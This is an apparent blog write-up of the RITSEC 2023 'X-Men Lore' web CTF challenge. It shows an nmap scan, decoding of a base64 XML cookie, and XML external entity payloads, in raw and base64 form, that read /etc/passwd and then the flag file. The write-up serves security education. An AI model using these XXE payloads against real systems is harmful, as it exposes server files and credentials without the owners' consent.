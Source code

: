 ```yaml
---
title: "[RITSEC 2023] - X-Men Lore"
date: 2023-04-01
author: me
categories: [writeups]
tags: ["Web", "RITSEC"]
toc: true
comments: false
mermaid: false
math: false
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>


The 90's X-Men Animated Series is better than the movies. Change my mind.

[https://xmen-lore-web.challenges.ctf.ritsec.club/](https://xmen-lore-web.challenges.ctf.ritsec.club/)


_____________________________________________________



### Nmap

```
┌──(teiiko㉿kali)-[~/Bureau/RITSEC]
└─$ nmap -sV xmen-lore-web.challenges.ctf.ritsec.club
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-01 12:37 CEST
Nmap scan report for xmen-lore-web.challenges.ctf.ritsec.club (34.111.96.219)
Host is up (0.016s latency).
rDNS record for 34.111.96.219: 219.96.111.34.bc.googleusercontent.com
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE   VERSION
80/tcp  open  http      gunicorn
443/tcp open  ssl/https gunicorn
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/

Service detection performed. Please report any incorrect resultsorg/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.59 seconds

```
### Web app

By reaching the website, we arrive on a main page that allows us to choose an X-Men character. 

![first](/images/x-men/x-men-main.png)

So let's pick one of them.

![first](/images/x-men/x-men-main-2.png)

There is nothing interesting either in the page or in the source code, so i looked for cookies and found something interesting:

![first](/images/x-men/x-men-main-3.png)

Indeed, everytime we choose a charactere, a new cookie is set up:

![first](/images/x-men/x-men-main-4.png)

It looks like a base64-encoded string, so lets try to decode it.

```bash
teiiko@LAPTOP-1H1P71UP:~$ echo PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48aW5wdXQ+PHhtZW4+V29sdmVyaW5lPC94bWVuPjwvaW5wdXQ+ | base64 -d
<?xml version='1.0' encoding='UTF-8'?><input><xmen>Wolverine</xmen></input>
teiiko@LAPTOP-1H1P71UP:~$
```

Now, we understand we have to try for an XML eXternal Entity (XXE) Injection.

### Exploit

Firstly, I tried to read an existing file, like `/etc/passwd`.

So, I performed this payload...

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

...wich gives us in base64 the following string:

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiPl0+PGlucHV0Pjx4bWVuPiZ4eGU7PC94bWVuPjwvaW5wdXQ+Cg==
```

Then, i replaced my cookie and refreshed the page.

![first](/images/x-men/x-men-main-6.png)

And we sucessfully get then content of `/etc/passwd` file !

### Flag

Here comes the most difficult part (a little bit too guessy imo), we have to find a file containing the flag. I tried a lot of things like log files, user specific files, linux default files.. but none gave me the flag or interesting data. So, after being stucked for an hour, I looked for more obvious files that we conventionally find in CTF (like `flag`, `flag.txt`, `/passwd`...).

So, I firstly tried to read a potential `flag` file and it worked... !

![first](/images/x-men/x-men-flag.png)

> 🚩 `RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}`

**Final payload:**

```xml
<?xml version='1.0' encoding='UTF-8'?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://./flag">]>
    <input>
        <xmen>&xxe;</xmen>
    </input>
```

**Base64-encoded string**

```
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZm9vIFs8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vLi9mbGFnIj5dPjxpbnB1dD48eG1lbj4meHhlOzwveG1lbj48L2lucHV0Pgo=
```